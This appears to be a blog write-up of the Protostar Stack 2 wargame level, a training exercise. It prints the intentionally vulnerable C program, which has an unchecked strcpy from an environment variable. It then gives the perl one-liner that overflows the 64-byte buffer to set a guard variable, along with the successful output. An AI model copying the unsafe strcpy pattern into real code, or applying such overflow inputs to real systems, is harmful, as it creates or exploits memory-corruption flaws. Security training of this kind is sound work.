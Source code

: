 ```yaml
---
title: "Exploit Exercises - Protostar Stack 2"
date: "2011-12-14T05:08:00-05:00"
comments: true
highlight: "true"
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-protostar-stack-2.html"
---
```


This challenge is pretty much the same as the previous challenge, except that the buffer comes from an environmental variable.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];
 char *variable;

 variable = getenv("GREENIE");

 if(variable == NULL) {
  errx(1, "please set the GREENIE environment variable\n");
 }

 modified = 0;

 strcpy(buffer, variable);

 if(modified == 0x0d0a0d0a) {
  printf("you have correctly modified the variable\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }

}
```

This problem can simply be solved by running these commands:

```
user@protostar:/opt/protostar/bin$ GREENIE=`perl -e 'print "A"x64 . "\x0a\x0d\x0a\x0d"'`
user@protostar:/opt/protostar/bin$ export GREENIE
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
```

This will put the 64 "A"s and 0x0d0a0d0a (in little endian) into an environmental variable.  Then when the vulnerable C app reads it, overflows the buffer into the "modified" variable, just like the others.
